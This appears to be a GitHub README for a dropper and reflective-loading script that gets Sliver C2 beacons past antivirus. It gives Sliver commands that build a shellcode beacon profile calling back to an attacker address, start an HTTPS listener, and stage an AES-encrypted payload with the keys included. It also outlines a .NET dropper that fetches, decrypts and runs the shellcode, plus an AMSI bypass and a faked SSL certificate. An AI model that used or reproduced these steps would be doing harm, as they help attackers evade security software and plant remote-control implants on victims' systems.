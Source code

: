# Bypass AV with Sliver c2
Dropper + reflective load script for bypassing AV with sliver c2

Taken from [this article](https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8).

Compression is a huge IOC so I may change this to remove

## In Sliver

Create new beacon profile

`profiles new -b  https://192.168.1.11:443 --skip-symbols --format shellcode --arch amd64 my_profile`

Start listener and add SSL cert (you can fake with msf impersonate_ssl)

`https -L 192.168.1.11 -l 443 -c /home/ycf/blog/sliver/crt.crt -k /home/ycf/blog/sliver/key.key`

Stage beacon payload and create AES keys

`stage-listener --url https://192.168.1.11:8080 --profile my_profile -c /home/ycf/blog/sliver/crt.crt -k /home/ycf/blog/sliver/key.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV`

## Dropper

Shellcode dropper solution will download, decompress, decrypt shellcode and execute. Best way is to reflectively load via PowerShell as it is .NET assembly, and the dropper is not evasive at all (you need AMSI bypass).

1. Read in solution DLL assembly. The solution MUST BE `.NET FRAMEWORK` (~4.0).

`get-content -encoding byte -path .\sliverloader.dll | clip`

2. Convert your keys and IV to raw bytes.

3. Update loader script

4. Use `amsiscanbuffer()` bypass for entire process unhook including CLR
